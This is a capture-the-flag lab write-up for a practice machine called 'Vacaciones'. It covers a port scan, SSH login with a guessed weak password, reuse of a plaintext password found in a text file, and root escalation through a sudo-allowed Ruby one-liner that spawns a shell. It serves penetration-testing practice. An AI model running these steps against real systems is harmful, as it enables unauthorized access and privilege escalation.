 # Vacaciones

## Port Enumeration

We begin our discovery phase using the Nmap tool. Our scan reveals the following open ports:
```ruby
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.18.0.2
```

```ruby
┌──(root㉿kali)-[/home/kali]
└─# nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.18.0.2  
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 64
80/tcp open  http    syn-ack ttl 64

```

## Examining the Web Page

First, we'll inspect the web page for any clues and use the Gobuster tool to uncover any suspicious files or directories.

![alt text](Imagenes/Vacaciones_1.png)

We discover two potential users: Juan and Camilo.

![alt text](Imagenes/Vacaciones_2.png)

Our scan doesn't reveal any interesting files.

## Intrusion
We attempt to access the SSH service using the discovered usernames. We find a password for the user Camilo:

```ruby
user: Camilo
passwd: password1
```

![alt text](Imagenes/Vacaciones_3.png)

With these credentials, we successfully access the SSH service.

## Privilege Escalation

To escalate privileges, we first try the `sudo -l` command to identify binaries we can execute. However, this option is not available for this user.

![alt text](Imagenes/Vacaciones_4.png)

We then search for interesting files that might provide clues. Using the following command, we discover a suspicious file:

```ruby
find / -name "*.txt"
```

The file is named correo.txt.

![alt text](Imagenes/Vacaciones_5.png)


```ruby
$ cat correo.txt
Hola Camilo,

Me voy de vacaciones y no he terminado el trabajo que me dio el jefe. Por si acaso lo pide, aquí tienes la contraseña: 2k84dicb
$ 

```


This appears to be Juan's password for the SSH service. We attempt to log in as Juan.

After successfully accessing Juan's account, we check which binaries we can execute with this user:

```ruby
$ sudo -l
Matching Defaults entries for juan on 130b792b2d39:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User juan may run the following commands on 130b792b2d39:
    (ALL) NOPASSWD: /usr/bin/ruby

```

Finally, using GTFObins, we determine how to escalate to root by executing the following command:

```ruby
sudo -u root /usr/bin/ruby -e 'exec "/bin/sh"'
```


![alt text](Imagenes/Vacaciones_6.png)